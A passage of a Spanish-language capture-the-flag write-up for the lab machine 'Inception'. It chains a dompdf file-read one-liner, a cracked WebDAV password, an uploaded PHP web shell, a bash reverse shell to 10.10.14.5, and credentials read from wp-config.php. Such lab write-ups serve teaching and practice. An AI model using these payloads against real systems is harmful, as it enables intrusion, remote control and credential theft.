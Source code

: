 ```http://10.10.10.67/dompdf/dompdf.php?input_file=/etc/passwd``` Pero no se lee, aun asi existe. 
curl -s -X GET "http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/convert.base64-encode/resource=$archivo" | grep -oP '\[\(.*?\)\]' | tr -d "\[\(\)\]" | base64 -d
```
- /etc/passwd -> Existen los usuarios root y cobb (pero este no tiene ninguna id_rsa)
- /proc/net/fib_trie -> la ip de la red interna es: 192.168.0.10
- No podemos hacer un log_poisoning con el /var/log/auth.log (no hay permiso de lectura)
- Como estamos ante un squid proxy podemos leer el archivo de configuracion /etc/squid/squid.conf
- Como la web es apache tirar de /etc/apache/sites-enabled/000-default.conf (o apache2 en este caso)

Hay como unas 3000 lineas del squid.conf, la mayoria comentadas, para quitarlas:
```cat ./squid.conf | grep -v "^#" | grep -ve '^$'```
Pero no hay nada interesante. 
En cuanto al archivo de apache nos da una ruta "AuthUserFile" /var/www/html/webdav_test_inception/webdav.passwd
En ella hay una contraseña -> webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0
> Web-dav: protocolo web para subir archivos, imitando al FTP/Samba

```console
└─$ jhon password -w=/usr/share/wordlists/rockyou.txt
babygurl69       (webdav_tester)
```
En el apache.conf dice que esa contraseña vale para la ruta /webdav_test_inception

```console
└─$ davtest -url http://10.10.10.67/webdav_test_inception -auth webdav_tester:babygurl69
PUT File: http://10.10.10.67/webdav_test_inception/DavTestDir_iKJ7xa_v9GaGTs/davtest_iKJ7xa_v9GaGTs.php
Executes: http://10.10.10.67/webdav_test_inception/DavTestDir_iKJ7xa_v9GaGTs/davtest_iKJ7xa_v9GaGTs.php
```
Podemos subir/ejecutar archivos php.
Asi que subirmeos el clasico:
```php
<?php  echo shell_exec($_REQUEST['cmd']); ?>
```
```console
└─$ curl -s -X PUT http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/shell.php -d @shell.php
<p>Resource /webdav_test_inception/shell.php has been created.</p>
└─$ curl -s -X GET http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/shell.php?cmd=whoami
<pre>www-data</pre>
```
SI le pasamos el comando de reverse shell (con los & urlencodeados a %26)
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'```

--------------------------------------------

### PARTE 3. Fordward Shell
La manera es hacer una fake shell para operar con un script [tty over http](https://github.com/CUCUxii/ttyhttp.py/blob/main/ttyhttp.py)

```console
└─$ rlwrap ./inception.py
~$: script /dev/null -c bash
Script started, file is /dev/null
www-data@Inception:/var/www/html/webdav_test_inception$ 
~$: tty
~$: cd ../
www-data@Inception:/var/www/html/wordpress_4.8.3$
~$: cat wp-config.php
# Encontramos las creds root:VwPddNh7xMZyDQoByQL4
~$: su cobb
Password: 
~$: VwPddNh7xMZyDQoByQL4
```